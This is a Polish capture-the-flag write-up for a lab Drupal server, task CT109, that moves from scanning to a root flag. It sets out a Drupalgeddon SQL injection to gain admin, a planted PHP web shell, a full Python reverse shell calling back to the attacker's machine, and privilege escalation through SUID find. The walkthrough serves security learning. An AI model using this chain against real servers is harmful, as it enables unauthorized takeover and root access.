




# FINAL - TASK CT109

```ascii
   _____   ______    ____     __ __                  __
  / ___/  / ____/   /  _/  __/ // /_   ____   ___   / /_
  \__ \  / /        / /   /_  _  __/  / __ \ / _ \ / __/
 ___/ / / /___    _/ /   /_  _  __/  / / / //  __// /_
/____/  \____/   /___/    /_//_/    /_/ /_/ \___/ \__/

 _       __     _ __          __  __
| |     / /____(_) /____     / / / /___
| | /| / / ___/ / __/ _ \   / / / / __ \
| |/ |/ / /  / / /_/  __/  / /_/ / /_/ /
|__/|__/_/  /_/\__/\___/   \____/ .___/
```

### **Sypnosis**

1. [Wstępna enumeracja](#Wstępna-enumeracja)
2. [Dostęp do panelu Drupal (Pierwsza Flaga)](#Dostęp-do-panelu-Drupal)
3. [Dostęp do serwera](#Dostęp-do-serwera)
4. [Eskalacja uprawnień i dostęp do konta root'a (Druga Flaga)](#Eskalacja-uprawnień-i-dostęp-do-konta-root'a)

### **Recon**

Nim przystąpimy do rozwiązania zadania musimy zlokalizować gdzie znajduje się serwer docelowy. Wiemy, że jego hostname to CT109 a sieć do której jesteśmy połączeni ma adres **192.168.13.0/24**.
W celu znalezienia adresu IP CT109 wykorzystamy oprogramowanie do analizy serwerów **nmap**:
```bash
# nmap -sn 192.168.13.*
```
Znaleziony CT109:  


Teraz kiedy mamy już adres serwera możemy przejść do właściwego zadania.

### **Solving**

#### Wstępna enumeracja

W celu zbadania z czym mamy doczynienia ponownie wykorzystamy oprogramowanie **nmap**:
```bash
# nmap -sS -sV 192.168.13.249
```
Wynik powyższego polecenia:  


W wyniku analizy dowiadujemy się, że:
- System operacyjny na którym postawiony jest CT109 to Linux
- Otwarte porty to 22 oraz 80

Do SSH się raczej jeszcze nie dostaniemy (o ile wogóle), tak więc sprawdźmy serwer WWW.  


Otwieramy przeglądarkę a naszym oczom ukazuje się Drupal CMS.


#### Dostęp do panelu Drupal

Jak już wiemy z czym mamy doczynienia, możemy przejść do działania. Do panelu dostaniemy się z użyciem exploit'u ['Drupalgeddon' SQL Injection](https://www.exploit-db.com/exploits/34992). Luki w Drupalu pozwalają nam na dodanie sobie konta z uprawnieniami Administratora.
```bash
# python 34922.py -t http://192.168.13.249 -u writeup -p writeup
```
Wynik działania skryptu:  


Wersja Drupala jest wrażliwa na exploit, tak więc teraz możemy się zalogować.  


Po krótkim przeszukaniu panelu w zakładce **'Content'** znajdujemy element o nazwie **'flag3'**, w którym znajduje się pierwsza z flag.  
  
>scinet{drupalflag}

Mamy flagę, dostęp do panelu oraz uprawnienia administratora. Teraz czas dostać się na serwer.

#### Dostęp do serwera

Nim będziemy mogli otworzyć sobie dostęp do powłoki musimy włączyć możliwość umieszczania kodu PHP w artykułach oraz podstronach. W tym celu: 
*Wchodzimy w **'Modules'** -> Zaznaczamy **'PHP filter'** -> Zapisujemy -> Wchodzimy w operacje **'Permissions'** przy 'PHP filter' -> Zaznaczamy **'Use the PHP code text format'** w kolumnie ADMINISTRATOR -> Ponownie zapisujemy.*

Teraz możemy przejść do wgrania naszego złośliwego kodu.
*Wchodzimy w **'Structure'** -> Tworzymy nowy **'Block'** -> Ustawiamy **'Text format'** na **'PHP code'***
```php
<pre><?php system($_GET['c']) ?></pre>
```
*Następnie przesuwamy nowo utworzony blok do sekcji **'header'***

Nim przejdziemy do uzyskiwania dostępu, sprawdzimy poprawność działania naszego RCE:  


Teraz kiedy mamy już możliwość wykonywania komend, w nowym terminalu rozpoczynamy nasłuchiwanie portu wybranego portu np. 4444
```bash
# nc -lvp 4444
```
Oraz za pośrednictwem spreparowanego url otwieramy sobie reverse shell:
```bash
http://192.168.13.249/?c=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket%28socket.AF_INET,socket.SOCK_STREAM%29;s.connect%28%28%22192.168.13.234%22,4444%29%29;os.dup2%28s.fileno%28%29,0%29;%20os.dup2%28s.fileno%28%29,1%29;%20os.dup2%28s.fileno%28%29,2%29;p=subprocess.call%28[%22/bin/sh%22,%22-i%22]%29;%27
```
W efekcie czego otrzymujemy dostęp do shell'a.  


#### Eskalacja uprawnień i dostęp do konta root'a

Mimo, że mamy już dostęp do ograniczonej powłoki. Teraz musimy użyć jakiegoś sposobu aby zdobyć sesję TTY. Ja użyję pythona:
```sh
$ python -c 'import pty; pty.spawn("/bin/bash");'
```  


Mamy już powłokę, ale jeszcze nie root'a. Ponownie wykonujemy enumerację, jednak tym razem szukamy czegość co posiada na sobie SUID.
```bash
$ find / -user root -perm -4000 -print 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```  


Ze zdobytych informacji dowiadujemy się o obecności SUID na binarce polecenia **find**, możemy bardzo łatwo to wykorzystać. Tworzymy plik, a następnie "odszukujemy go":
```bash
$ touch writeup
$ find writeup -exec whoami \;
```  


Teraz możemy bez przeszkód zdobyć flagę:
```bash
$ find writeup -exec cat /root/flaga.txt \;
```  
  
>scinet{drupalmaster}

W ten oto sposób otrzymujemy flagę - zadanie wykonane :D

## Contributing

Jeżeli zauważyłeś/aś błąd lub chcesz dodać swoją wersję rozwiązania - proszę o pull request :)
 